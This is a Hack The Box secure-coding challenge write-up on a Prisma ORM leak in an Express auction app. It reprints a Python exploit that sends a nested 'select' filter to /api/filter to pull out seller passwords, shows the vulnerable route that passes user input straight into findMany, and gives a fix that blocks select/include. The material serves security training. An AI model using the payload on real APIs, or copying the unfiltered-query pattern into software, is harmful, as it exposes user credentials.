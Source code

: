 ![img](https://github.com/hackthebox/writeup-templates/raw/master/challenge/assets/images/banner.png)

<img src="https://github.com/hackthebox/writeup-templates/raw/master/challenge/assets/images/htb.png" style="margin-left: 20px; zoom: 80%;" align=left />  <font size='20'>Arcane Auctions</font>

5<sup>th</sup> February 2025

Prepared By: Xclow3n

Challenge Author(s): Xclow3n

Difficulty: <font color='green'>Easy</font>

<br><br>


# Synopsis
The challenge is a secure coding challenge targetting prisma ORM leak vulnerablity.

## Description
The challenge involves an internal express web server. The player is presented with 3 services available: 
- express web app running on port 3000
- SMB services on both ports 445
- Checker service on both port 1337

The SMB service allows the user to easily enumerate the source code and make necessary changes on the server to ensure that the server works properly. 

## Skills Required
- Javascript code understanding.
- Basic understanding of ORM

## Skills Learned
- Avoiding ORM leak bugs

# Enumeration

## Analyzing the source code and the report

Let us begin looking at the exploit file that is provided to us:

```python

#!/usr/bin/env python3
import requests
import sys

BASE_URL = "http://127.0.0.1"

def exploit_filter_password_leak():
    print("Attempting to exploit the filter endpoint to leak seller passwords...")
    payload = {
        "filter": {
            "select": {
                "seller": {
                    "select": {
                        "password": True
                    }
                }
            }
        }
    }
    
    try:
        response = requests.post(f"{BASE_URL}/api/filter", json=payload)
    except Exception as e:
        print("Request failed:", e)
    
    if response.status_code == 200:
        data = response.json()
        if isinstance(data, list):
            vulnerable = False
            for idx, item in enumerate(data):
                seller = item.get("seller")
                if seller and "password" in seller:
                    print(f"[VULNERABLE] Item {idx} - Exposed seller password: {seller['password']}")
                    vulnerable = True
            if not vulnerable:
                print("No seller passwords were exposed in the response.")
        else:
            print("Unexpected response format:", data)
    else:
        print(f"Request failed with status code {response.status_code}: {response.text}")

if __name__ == "__main__":
    exploit_filter_password_leak()
```

We can here it simply extract password using ORM filtering.

Looking at the `/api/filter` route defined in `routes.js`

```javascript
router.post('/api/filter', async (req, res) => {
  try {
    const filter = req.body.filter || {};
    const items = await prisma.item.findMany(filter);
    res.json(items);
  } catch (error) {
    console.error(error);
    res.status(500).json({ error: 'Filtering error' });
  }
});
```

This line of code makes it vulnerable

```javascript
const filter = req.body.filter || {};
```

There are many ways to actually fix it, the easiest and simple ones are: 
- not allowing `include` and `select` filters
- allow whitelist filters only

```javascript
router.post('/api/filter', async (req, res) => {
  try {
    let filter = req.body.filter || {};

    // Reject any filter that includes select or include properties.
    if (filter.select || filter.include) {
      return res.status(400).json({ error: 'Invalid filter: select/include are not allowed' });
    }

    // const allowedKeys = ['where', 'orderBy', 'skip', 'take', 'cursor'];
    // filter = allowedKeys.reduce((acc, key) => {
    //   if (filter[key] !== undefined) {
    //     acc[key] = filter[key];
    //   }
    //   return acc;
    // }, {});

    const items = await prisma.item.findMany(filter);
    res.json(items);
  } catch (error) {
    console.error(error);
    res.status(500).json({ error: 'Filtering error' });
  }
});
```

Making changes to smb share and running the checker script.

![img](./assets/flag.png)

We get the flag
 

